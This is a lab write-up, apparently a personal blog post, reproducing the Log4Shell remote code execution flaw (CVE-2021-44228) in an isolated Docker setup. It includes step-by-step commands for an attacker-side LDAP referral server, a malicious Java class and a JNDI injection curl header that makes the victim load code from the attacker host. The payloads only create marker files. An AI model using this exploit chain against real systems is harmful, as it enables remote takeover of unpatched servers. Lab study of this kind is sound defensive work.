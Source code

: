 ```yaml
---
layout: post
title: CVE-2021-44228 Log4j Vuln Notes
tags: CVE-2021-44228 Log4j Vuln Notes
categories: CVE-VULNS
---
```


![Image](/img/cve-2021-44228-top.png)

## Installing Vulnerable Machine on the Ubuntu Machine (10.250.1.60)

I will be use these documents (**https://github.com/christophetd/log4shell-vulnerable-app** , **https://github.com/mbechler/marshalsec** and **https://github.com/xiajun325/apache-log4j-rce-poc/** ) to build CVE-2021-44228 vulnerable machine. Firstly i am starting to install docker on that machine.

#### **Docker İnstall On The Vulnerable Machine (10.250.1.60)**


- `sudo apt update`
- `sudo apt-get install apt-transport-https ca-certificates curl software-properties-common`
- `curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -`
- `sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu  $(lsb_release -cs)  stable"`
- `sudo apt update`
- `sudo apt-get install docker-ce`
- `docker --version`
- `sudo systemctl start docker`
- `sudo systemctl enable docker`
- `sudo systemctl status docker`

![Image](/img/docker.png)

#### **Installing Vulnerable Machine (10.250.1.60)**

- `cd /tmp`
- `sudo git clone https://github.com/christophetd/log4shell-vulnerable-app`
- `cd log4shell-vulnerable-app/`
- `sudo docker build . -t vulnerable-app`
- `sudo docker run -p 8080:8080 --name vulnerable-app vulnerable-app`

![Image](/img/installing.png)
![Image](/img/installing2.png)
![Image](/img/installing3.png)

---

## **Prepare Attacker Machine (10.250.1.61)**

#### **Install Java JDK On the Attacker Machine**

- `cd /tmp`
- `sudo apt update`
- `sudo apt-get install default-jdk`
- `wget http://mirrors.rootpei.com/jdk/jdk-8u181-linux-x64.tar.gz`
- `tar zxvf jdk-8u181-linux-x64.tar.gz`
- `sudo mv ./jdk1.8.0_181 /usr/lib/jvm`
- `sudo update-alternatives --install "/usr/bin/java" "java" "/usr/lib/jvm/jdk1.8.0_181/bin/java" 1`
- `sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/lib/jvm/jdk1.8.0_181/bin/javac" 1`
- `sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/lib/jvm/jdk1.8.0_181/bin/javaws" 1`
- `sudo update-alternatives --config java` **choose the 1.8.0_181**
- `sudo update-alternatives --config javac`
- `sudo update-alternatives --config javaws`

```
sudo vim /etc/environment

# PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games"
PATH="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/usr/lib/jvm/jdk1.8.0_181/bin:/usr/lib/jvm/jdk1.8.0_181/db/bin:/usr/lib/jvm/jdk1.8.0_181/jre/bin"
J2SDKDIR="/usr/lib/jvm/jdk1.8.0_181"
J2REDIR="/usr/lib/jvm/jdk1.8.0_181/jre*"
JAVA_HOME="/usr/lib/jvm/jdk1.8.0_181"
DERBY_HOME="/usr/lib/jvm/jdk1.8.0_181/db"
```

- `echo $JAVA_HOME`

- `java -version`

![Image](/img/java_ver.png)

---

#### **Prepare LDAP Referrer Server on The Attacker**

- `cd /tmp`
- `sudo apt install maven`
- `git clone https://github.com/mbechler/marshalsec`
- `cd /tmp/marshalsec`
- `sudo mvn clean package -DskipTests`
- `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.250.1.61:8000/#Log4jRCE"`

![Image](/img/ldap.png)

#### **Prepare Malicious Java Code On The Attacker**

- `mkdir /tmp/poc`
- `cd /tmp/poc`

```
vim Log4jRCE.java

public class Log4jRCE {

    static {
        try {
            String[] cmd = {"code"};
            Runtime.getRuntime().exec("touch /tmp/pwned").waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

- `javac Log4jRCE.java`

- `sudo python3 -m http.server`

![Image](/img/javac.png)

#### **Exploit The Target Machine From The Attacker**

![Image](/img/exploitt.png)

- `curl 10.250.1.60:8080 -H 'X-Api-Version: ${jndi:ldap://10.250.1.61:1389/Basic/Command/Base64/dG91Y2ggL2V0Yy9wd25lZDE=}'`

#### **Verify on the Victim Machine wheater code execution**

- `sudo docker exec vulnerable-app ls /tmp`

![Image](/img/pwned.png)

